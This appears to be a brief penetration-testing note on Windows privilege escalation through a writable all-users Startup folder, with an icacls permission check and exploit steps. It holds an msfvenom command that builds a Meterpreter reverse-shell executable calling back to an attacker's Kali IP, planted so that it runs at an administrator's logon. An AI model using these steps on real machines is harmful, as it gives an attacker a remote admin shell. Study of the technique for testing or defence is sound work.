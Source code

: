 # Startup Applications

## Startup Applications

## IDEA

in Windows we can a private folder call `Startup` any program or execution file in this folder it will be run automatically when any user loged in which we can found a startup folder for each user and once for generic users

**In this scenario we will focus on generic folder:**`C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup`

***

## Detection

```powershell
 icacls.exe "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup"
 
 #  icacls.exe -> use to show or edit privilege
```

We will notice that the `“BUILTIN\Users”` group has full access ‘(F)’ to the directory

***

## Exploit

create a reverse shell

```powershell
msfvenom -p windows/meterpreter/reverse_tcp LHOST=[Kali VM IP Address] -f exe -o x.exe
```

then move it to `C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup`

open meterpreter session and logoff then login with admin account

